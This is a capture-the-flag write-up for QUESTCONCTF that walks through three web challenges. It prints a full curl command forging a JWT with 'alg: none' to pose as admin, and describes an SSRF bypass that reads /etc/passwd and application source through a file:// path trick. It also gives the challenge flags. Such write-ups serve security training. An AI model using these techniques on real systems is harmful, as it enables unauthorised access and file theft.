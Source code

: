 -----------------

### CTF: QUESTCONCTF

------------------

![image](https://github.com/user-attachments/assets/201d3478-4cce-4604-a4d3-be0e79a1d0f1)

------------------

### Challenges:

- Web
  - Direction
  - Theadmin
  - Temp

------------------

### WEB:

### Direction:

![image](https://github.com/user-attachments/assets/4f776a65-e2c5-4f76-b044-18c3d0f4c467)

- I loaded the site and got this

![image](https://github.com/user-attachments/assets/c01101fe-8612-40fd-93de-7997ec52e9ff)

- I decided to check for the common file `robots.txt` that we all try to find and got a disallowed page.

![image](https://github.com/user-attachments/assets/29d877b6-a391-4a21-9497-0a8a4615cba0)

- I proceeded with curl and noticed an header containing a portion of the flag and automatically redirects to the next page.At first,I couldn't use `GET` for it.I used header `OPTIONS` to find allowed http headers.

![image](https://github.com/user-attachments/assets/9ae29c4e-5969-40cc-a455-77f463277e94)

- Flag portion 1 is shown below and the next flag stop will be the path in the `Location` header.

![image](https://github.com/user-attachments/assets/05c38c13-3f18-4440-bf62-8606f38c8a79)

- I wrote a <a href="https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py">script</a> to automate it.

![image](https://github.com/user-attachments/assets/60983022-c410-4d09-9247-07294c1cdd14)

- Flag-: ```QUESTCON{mi3d1r3ct10n_15_4n_4r}```


-------------------

### Challenge 2: The Admin

![image](https://github.com/user-attachments/assets/2c893638-2ee5-4086-ba07-333a1ee1d40a)

- The index page contains the documentation for the api.Route `auth` takes in a username and returns a jwt token created with the username and route `access` takes in the cookie and displays the username.

![image](https://github.com/user-attachments/assets/0ca83b87-c8b8-4164-82f7-35f0b1b0180b)

![image](https://github.com/user-attachments/assets/d985d91e-3733-4d32-9587-6719bc838327)

- I was able to get the flag by setting the `alg` key to `none`.

```bash
curl https://questcon-theadmin.chals.io/access -H "Authorization: Bearer $(echo '{"alg":"none","typ":"JWT"}' | base64).eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5ODYwNTM2fQ"
{"flag":"QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}"}%
```

- Flag-:```QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}```

---------------------

### Challenge 3: TEMP

![image](https://github.com/user-attachments/assets/748470c8-b92f-4dc0-8d28-bb37d6de8963)

- I checked the source code aand noticed a `POST` request made to route `/api` which loads a url.

      fetch('/api', {
                      method: 'POST',
                      headers: {
                          'Content-Type': 'application/json',
                      },
                      body: JSON.stringify({ url: urlInput }),
                  })
- I made an http request to google and it worked.

      ❯ curl https://questcon-temp.chals.io/api -H "Content-Type: application/json" -d '{"url": "https://www.google.com"}'
      {"data":"<!doctype html><html itemscope=\"\" itemtype=\"http://schema.org/WebPage\" lang=\"en\"><head><meta content=\"Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.\" name=\"description\"><meta content=\"noodp, \" name=\"robots\"><meta content=\"text/html; charset=UTF-8\"

- I tried to read `/etc/passwd` with `file://` schema which did not work because it was filtered.Then, I tred `/etc/./passwd` which worked.

![image](https://github.com/user-attachments/assets/c76e76d3-230a-4c03-b7d0-40a5e0b293dd)

- I got the flag by reading the source code stored in `/app/app.py`.I got this idea because most ctf challenges are stored in `/app/app.py`.

![image](https://github.com/user-attachments/assets/a9abae67-3da3-4799-bd5d-7c495faa1b3c)

- Flag-: ```'QUESTCON{r3c0ver_d3l3t3d_fil3}```

-------------------

### THANKS FOR READING

-------------------

### REFERENCES:

- [Direction's script](https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py)
















